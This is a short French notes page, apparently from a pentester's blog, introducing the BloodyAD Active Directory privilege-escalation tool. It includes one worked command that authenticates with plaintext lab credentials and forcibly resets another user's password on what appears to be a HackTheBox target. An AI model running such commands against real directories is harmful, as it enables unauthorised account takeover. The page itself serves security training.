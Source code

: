 ```yaml
---
title: "BloodyAD"
date: 2025-05-07T15:00:00+02:00
draft: false
tags: ["Outils", "Pentester"]
categories: ["Outils"]
summary: "BloodyAD"
showToc: true
tocOpen: true
---
```


est un couteau suisse d'escalade des privilèges Active Directory
./bloodyAD.py --host "10.10.11.42" -d "Administrator.htb" -u "olivia" -p "ichliebedich" set password "michael" "Password@123"
https://github.com/CravateRouge/bloodyAD